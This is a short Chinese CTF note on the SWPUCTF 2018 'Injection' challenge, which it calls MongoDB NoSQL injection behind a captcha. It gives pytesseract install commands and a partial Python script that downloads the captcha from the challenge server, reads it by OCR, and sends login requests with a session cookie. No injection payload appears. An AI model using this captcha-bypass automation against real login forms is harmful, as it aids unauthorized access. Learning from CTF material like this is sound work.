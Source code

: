 # 带验证码的sql注入

案例: swpuctf 2018 Injection ???

* nosql注入: mongodb注入
* pytesseract: 可自动识别验证码

安装pytesseract库:

```
sudo pip3 install pytesseract
sudo add-apt-repository ppa:alex-p/tesseract-ocr 
sudo apt-get update
sudo apt-get install tesseract-ocr
```

```
#!/usr/bin/env python3
# @Time    : 2018/12/17 5:39 PM
# @Author  : sn00py
# @Comment:

from PIL import Image
import pytesseract
import requests
import sys
import string

vertify_url = "http://123.206.213.66:45678/vertify.php"
login_url = "http://123.206.213.66:45678/check.php?{}"

cookies = {
    "PHPSESSID": "7s2jq2cnmkd9lgr4gg06me29e1",
}


def get_vertify_img():
    try:
        resp = requests.get(url=vertify_url, cookies=cookies)
        with open('vertify.jpg', 'wb+') as f:
            f.write(resp.content)
    except Exception as e:
        print('验证码获取失败')


def get_vertify_code(filename):
    try:
        picture = Image.open(filename)
        text = pytesseract.image_to_string(picture)
        return text.lower()
    except Exception as e:
        print('验证码识别失败')
        print(e)


def login(url):
    proxies = {
        'http': 'http://127.0.0.1:8080',
    }
    try:
        resp = requests.get(url, cookies=cookies)
        return resp.text
    except Exception as e:
        pass

```